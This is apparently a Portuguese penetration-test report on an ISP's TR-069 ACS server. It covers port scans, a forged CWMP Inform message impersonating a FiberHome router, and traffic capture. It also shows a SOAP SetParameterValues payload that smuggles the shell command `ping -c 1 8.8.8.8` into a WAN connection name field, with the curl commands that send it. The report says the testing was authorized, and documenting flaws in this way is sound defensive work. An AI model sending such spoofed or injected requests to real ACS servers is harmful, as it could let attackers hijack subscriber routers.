# Análise da Comunicação SOAP e Possiveis Riscos no ACS (TR-069) - ISP Real

**Data da análise:** 03/06/2025  
**Autor:** Renan Dias Mendes  
**Objetivo:** Documentar exposição pública e possiveis vulnerabilidades encontradas no servidor ACS (TR-069) do ISP Local, validando riscos associados à falta de autenticação e controle de acesso em requisições SOAP.

---

## Contexto Inicial

- Todos os testes foram realizados com autorização prévia do ISP envolvido.  
- O protocolo TR-069 (CWMP) é utilizado por ISPs para gerenciar remotamente roteadores (CPEs).  
- Um ACS mal configurado pode permitir controle remoto total, execução remota de código (RCE), exfiltração de dados e formação de botnets.  

---

## Detecção Inicial 

- Foi identificado um servidor ACS acessível publicamente, escutando nas portas TCP: `80`, `443`, `7547`, `57547`, `4007` e `3000`.
- O painel aceita requisições SOAP externas sem exigir autenticação.

### Riscos Potenciais  
- Execução remota de código (RCE)  
- Exfiltração de dados  
- Formação de botnets (ex.: Mirai, Hajime)

---

## 1 – Port Scan no IP do Servidor ACS

```bash
sudo nmap -sS -Pn --open -T2 -n -v -p- <IP do ISP>
```


- Resultado:



- Portas abertas sem filtragem aparente.

---

## 2 – Teste Requisição HTTPS na Porta 7547

```bash
curl -k -i https://<IP_do_ISP>:7547/login
```


Resposta:

- HTTP/1.1 200 OK
- Cookies de sessão e linguagem definidos
- Retorno de HTML funcional
- Indícios claros de painel web funcional acessível externamente

---

## 3 – Construção da Requisição SOAP (inform.xml)

- Criei um Payload XML simulando comunicação legítima do roteador (CPE) com o ACS via CWMP/TR-069.

- Eventos simulados: BOOTSTRAP e BOOT.

> Inform.XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope
    xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsd="http://www.w3.org/2001/XMLSchema"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:cwmp="urn:dslforum-org:cwmp-1-0">
  <SOAP-ENV:Header>
    <cwmp:ID SOAP-ENV:mustUnderstand="1">1234567890</cwmp:ID>
  </SOAP-ENV:Header>
  <SOAP-ENV:Body>
    <cwmp:Inform>
      <DeviceId>
        <Manufacturer>FiberHome</Manufacturer>
        <OUI>000AC2</OUI>
        <ProductClass>HG6145F</ProductClass>
        <SerialNumber>FHGK7CFS0D07</SerialNumber>
      </DeviceId>
      <Event SOAP-ENC:arrayType="cwmp:EventStruct[2]" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/">
        <EventStruct>
          <EventCode>0 BOOTSTRAP</EventCode>
          <CommandKey></CommandKey>
        </EventStruct>
        <EventStruct>
          <EventCode>1 BOOT</EventCode>
          <CommandKey></CommandKey>
        </EventStruct>
      </Event>
      <MaxEnvelopes>1</MaxEnvelopes>
      <CurrentTime>2025-06-11T03:00:00Z</CurrentTime>
      <RetryCount>0</RetryCount>
      <ParameterList SOAP-ENC:arrayType="cwmp:ParameterValueStruct[4]" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/">
        <ParameterValueStruct>
          <Name>InternetGatewayDevice.DeviceInfo.Manufacturer</Name>
          <Value xsi:type="xsd:string">FiberHome</Value>
        </ParameterValueStruct>
        <ParameterValueStruct>
          <Name>InternetGatewayDevice.DeviceInfo.SerialNumber</Name>
          <Value xsi:type="xsd:string">FHGK7CFS0D07</Value>
        </ParameterValueStruct>
        <ParameterValueStruct>
          <Name>InternetGatewayDevice.DeviceInfo.SoftwareVersion</Name>
          <Value xsi:type="xsd:string">RP7123</Value>
        </ParameterValueStruct>
        <ParameterValueStruct>
          <Name>InternetGatewayDevice.DeviceInfo.HardwareVersion</Name>
          <Value xsi:type="xsd:string">WKE2.051.292C02</Value>
        </ParameterValueStruct>
      </ParameterList>
    </cwmp:Inform>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
---

## 4 – Envio Manual do SOAP (inform.xml) para ACS porta 7547

```bash
curl -k -X POST https://<IP_do_ISP>/ \
  -H "Content-Type: text/xml; charset=utf-8" \
  --data-binary @inform.xml
```




Resposta:

```xml
<cwmp:InformResponse><MaxEnvelopes>1</MaxEnvelopes></cwmp:InformResponse>
```

- ACS aceitou a requisição como se fosse um roteador real.
- Isso indica validação fraca ou inexistente.

---

## 5 – Captura de Tráfego com tcpdump e Wireshark

```bash
sudo tcpdump -i eth0 host <IP_do_ISP> -n -s 0 -w acs_tr069.pcap
```

- Foi capturado handshake, payload e encerramento da sessão.

Apesar do TLS, fluxo e volume da comunicação puderam ser analisados.




---

## 6 – Novo Port Scan 

```bash
sudo nmap -sV -p 80,443,3000,4007,57547 <IP_do_ISP>
```



- Identificação de versões e serviços ativos nas portas abertas.



---

## 7 – Análise dos Serviços nas Portas 4007 e 57547

```bash
curl -k -i https://<IP_do_ISP>:4007
curl -k -i http://<IP_do_ISP>:57547
```

- Porta 57547: Painel interno IXC ACS (HTTP, sem TLS) — não acessível via navegador.


- Porta 4007: API GraphQL Apollo Server (HTTPS)


---

## 8 – Teste SOAP na Porta 57547

```bash
curl -k -X POST http://<IP_do_ISP>:57547 \
  -H "Content-Type: text/xml; charset=utf-8" \
  --data-binary @inform.xml
```


- Comunicação via HTTP em texto plano, dados capturados facilmente via Wireshark.


- Risco de exposição de dados.

---

## 9 – Teste Passivo de RCE via SOAP (rce.xml)

- Testei o envio de uma payload com comando SetParameterValues com uma injeção de comando ping -c 1 8.8.8.8.

- A resposta que recebi foi um HTTP 204 (No Content) que indica aceitação do comando sem erro.

> Payload rce.xml:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope
  xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xmlns:cwmp="urn:dslforum-org:cwmp-1-0">
  <SOAP-ENV:Header>
    <cwmp:ID SOAP-ENV:mustUnderstand="1">987654321</cwmp:ID>
  </SOAP-ENV:Header>
  <SOAP-ENV:Body>
    <cwmp:SetParameterValues>
      <ParameterList SOAP-ENC:arrayType="cwmp:ParameterValueStruct[1]"
        xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/">
        <ParameterValueStruct>
          <Name>InternetGatewayDevice.WANDevice.1.WANConnectionDevice.1.WANIPConnection.1.Name</Name>
          <Value xsi:type="xsd:string">`ping -c 1 8.8.8.8`</Value>
        </ParameterValueStruct>
      </ParameterList>
      <ParameterKey>rce-test</ParameterKey>
    </cwmp:SetParameterValues>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```




---

### Comportamentos observados:

| Campo Alvo                | Status HTTP retornado     | Observações Técnicas                       |
| --------------------------|---------------------------|--------------------------------------------|
| `.WANIPConnection.1.Name` | `HTTP/1.1 204 No Content` | Payload aceito. Indica parsing e aceitação |

- Aceitação de payloads SOAP sem nenhuma autenticação.
- Padrão semelhante com várias CVEs históricas de RCE via TR-069.

## Casos de CVEs em TR-069 e TR-064

|         CVE        |                              Descrição                                  |   Link  |
|--------------------|-------------------------------------------------------------------------|-------- |
| **CVE-2017-17215** | RCE em roteadores Huawei via TR-069 exposto. Usada em massa pelo Mirai. | [🔗 NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-17215) |
